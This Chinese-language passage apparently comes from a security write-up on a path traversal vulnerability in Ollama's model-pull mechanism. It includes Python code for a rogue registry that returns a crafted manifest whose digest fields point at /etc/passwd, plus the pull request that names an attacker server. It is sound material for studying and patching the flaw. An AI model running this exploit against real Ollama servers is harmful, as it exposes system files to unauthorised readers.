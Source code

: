 其中：

1. name字段指向攻击者控制的恶意服务器
2. insecure: true参数允许不验证SSL证书，便于攻击执行

**Ollama响应**：

1. Ollama接收请求并尝试连接到指定的恶意服务器
2. 根据Docker Registry API规范，它请求manifest文件

**恶意服务器返回Payload**：恶意服务器返回一个特制的manifest文件，关键部分包含路径遍历：

```python
@app.get("/v2/rogue/bi0x/manifests/latest")
async def fake_manifests():
    return {
        "schemaVersion": 2,
        "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
        "config": {
            "mediaType": "application/vnd.docker.container.image.v1+json",
            "digest": "../../../../../../../../../../../../../etc/passwd",
            "size": 10
        },
        "layers": [
            {
                "mediaType": "application/vnd.ollama.image.license",
                "digest": "../../../../../../../../../../../../../../../../../../../tmp/notfoundfile",
                "size": 10
            },
            {
                "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
                "digest": "../../../../../../../../../../../../../etc/passwd",
                "size": 10
            }
        ]
    }
```

**漏洞触发**：

Ollama处理收到的manifest，并尝试访问digest字段指定的文件

由于缺乏对digest字段的格式验证，它将路径遍历序列（如../）作为合法路径的一部分处理

路径遍历使得Ollama访问了预期目录之外的系统文件（如/etc/passwd）

**数据获取**：

```json
{
  "name": "攻击者服务器IP/rogue/bi0x",
  "insecure": true
}
```



